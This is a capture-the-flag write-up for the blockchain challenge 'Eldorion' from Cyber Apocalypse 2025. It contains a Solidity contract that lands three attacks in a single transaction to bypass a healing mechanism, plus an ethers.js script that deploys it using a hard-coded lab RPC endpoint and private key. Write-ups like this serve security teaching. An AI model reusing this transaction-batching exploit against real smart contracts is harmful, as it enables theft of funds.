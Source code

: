 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2025 | Eldorion Writeup
desc: Check out our writeup for Eldorion for Cyber Apocalypse 2025 capture the flag competition.
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2025
parent: cyber_apocalypse_2025
category: blockchain
challenge: Eldorion
tags: "blockchain, starry, solidity, ethers"
date: 2025-03-29T00:00:00+00:00
last_modified_at: 2025-03-29T00:00:00+00:00
---
```




> Solved by Starry-Lord

![](https://i.imgur.com/VxfRD0j.png)


This Beast was killed with adding a `attacker.sol` contract to bypass the “eternal resilience” function, which kept healing the boss after each attack. So we needed to make a triple attack:


    cat contracts/attack.sol                                                                                        
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.0;
    
    interface IEldorion {
        function attack(uint256 damage) external;
    }
    
    contract Attacker {
        function attackThree(address target) external {
            IEldorion(target).attack(100);
            IEldorion(target).attack(100);
            IEldorion(target).attack(100);
        }
    }

here is the attack script with ethers.js v5 (because I never managed to make this challenge return valid JSON with v6):


    const fs = require("fs");
    const path = require("path");
    const solc = require("solc");
    const { ethers } = require("ethers");
    
    // === Config ===
    const RPC_URL = "http://83.136.253.25:50179";
    const PRIVATE_KEY = "0x0ce0d36d2fb2e0cfc7f413aec7acf865871b6f71f28ffda18cff63ab50a8c59c";
    
    const eldorionAddress = "0x6114F5Aca890BaE0b153de34Cd024ba24C2A3A68";
    const setupAddress    = "0xaed4036993875E6C22E37BC1a12EFB81e89A9222";
    
    const eldorionAbi = [
      "function health() view returns (uint256)",
      "function isDefeated() view returns (bool)"
    ];
    const setupAbi = [
      "function isSolved() view returns (bool)"
    ];
    const attackerAbi = [
      "function attackThree(address target) external"
    ];
    
    // === Setup Provider + Signer ===
    const provider = new ethers.providers.JsonRpcProvider(RPC_URL);
    const signer = new ethers.Wallet(PRIVATE_KEY, provider);
    
    // === Compile Attacker.sol ===
    async function compileAttacker() {
      const filePath = path.join(__dirname, "../contracts/attack.sol");
      const source = fs.readFileSync(filePath, "utf8");
    
      const input = {
        language: "Solidity",
        sources: {
          "attack.sol": { content: source }
        },
        settings: {
          outputSelection: {
            "*": {
              "*": ["abi", "evm.bytecode"]
            }
          }
        }
      };
    
      const output = JSON.parse(solc.compile(JSON.stringify(input)));
    
      // Print compilation errors
      if (output.errors) {
        for (const error of output.errors) {
          console.error(error.formattedMessage);
        }
      }
    
      const contract = output.contracts["attack.sol"]?.["Attacker"];
      if (!contract) {
        throw new Error("❌ Compilation failed: Attacker contract not found.");
      }
    
      return {
        abi: contract.abi,
        bytecode: contract.evm.bytecode.object
      };
    }
    
    // === Main Execution ===
    async function main() {
      console.log("Attacker:", await signer.getAddress());
    
      const { abi, bytecode } = await compileAttacker();
    
      const factory = new ethers.ContractFactory(abi, bytecode, signer);
      const attacker = await factory.deploy();
      await attacker.deployed();
      console.log("🚀 Attacker contract deployed at:", attacker.address);
    
      const tx = await attacker.attackThree(eldorionAddress);
      await tx.wait();
      console.log("⚔ Sent 3 attacks in a single transaction!");
    
      const eldorion = new ethers.Contract(eldorionAddress, eldorionAbi, signer);
      const setup = new ethers.Contract(setupAddress, setupAbi, signer);
    
      const health = await eldorion.health();
      console.log("🧪 Eldorion's Health:", health.toString());
    
      const defeated = await eldorion.isDefeated();
      console.log("💀 Eldorion Defeated?", defeated);
    
      const solved = await setup.isSolved();
      console.log("🏁 Challenge Solved?", solved ? "✅ YES" : "❌ Not yet");
    
      if (solved) {
        console.log("🎉 Go grab your flag!");
      }
    }
    
    main().catch((err) => {
      console.error("💥 Error:", err.message || err);
    });
    
![](https://i.imgur.com/Zmnbjk5.png)

